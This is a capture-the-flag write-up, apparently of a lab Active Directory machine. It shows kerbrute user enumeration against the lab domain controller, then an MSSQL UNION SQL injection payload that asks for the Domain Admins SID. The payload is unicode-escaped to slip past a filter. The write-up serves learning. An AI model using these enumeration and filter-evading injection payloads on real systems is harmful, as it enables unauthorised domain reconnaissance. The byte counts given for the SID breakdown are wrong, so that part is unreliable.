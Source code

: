 So tested the new users
```
kerbrute userenum -d MEGACORP.LOCAL --dc 10.10.10.179 testing.txt -t 100 
```
![[Pasted image 20240922030306.png]]


So everthing is a dead end so i refer the walkthrough and guess what there is again a sql injection to be performed.

There are many [well-known](https://docs.microsoft.com/en-us/windows/security/identity-protection/access-control/security-identifiers) RID like **512** for the **Domain Admins** group. Let’s build a request to find out what if this attack works.
```
hello' UNION SELECT 1,sys.fn_varbintohexstr(SUSER_SID('MEGACORP\Domain Admins')),3,4,5--
```


```
\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0031\u002C\u0073\u0079\u0073\u002E\u0066\u006E\u005F\u0076\u0061\u0072\u0062\u0069\u006E\u0074\u006F\u0068\u0065\u0078\u0073\u0074\u0072\u0028\u0053\u0055\u0053\u0045\u0052\u005F\u0053\u0049\u0044\u0028\u0027\u004D\u0045\u0047\u0041\u0043\u004F\u0052\u0050\u005C\u0044\u006F\u006D\u0061\u0069\u006E\u0020\u0041\u0064\u006D\u0069\u006E\u0073\u0027\u0029\u0029\u002C\u0033\u002C\u0034\u002C\u0035\u002D\u002D
```

Final Payload
```
hello\u0027\u0020\u0055\u004E\u0049\u004F\u004E\u0020\u0053\u0045\u004C\u0045\u0043\u0054\u0020\u0031\u002C\u0073\u0079\u0073\u002E\u0066\u006E\u005F\u0076\u0061\u0072\u0062\u0069\u006E\u0074\u006F\u0068\u0065\u0078\u0073\u0074\u0072\u0028\u0053\u0055\u0053\u0045\u0052\u005F\u0053\u0049\u0044\u0028\u0027\u004D\u0045\u0047\u0041\u0043\u004F\u0052\u0050\u005C\u0044\u006F\u006D\u0061\u0069\u006E\u0020\u0041\u0064\u006D\u0069\u006E\u0073\u0027\u0029\u0029\u002C\u0033\u002C\u0034\u002C\u0035\u002D\u002D
```


```
0x0105000000000005150000001c00d1bcd181f1492bdfc23600020000
```
![[Pasted image 20240922042724.png]]


Let's break down this 
56 Bytes
```
0x0105000000000005150000001c00d1bcd181f1492bdfc23600020000
```

48 bytes are the SID
```
0x0105000000000005150000001c00d1bcd181f1492bdfc236
```

8 bytes are the RID
```
0x00020000
```
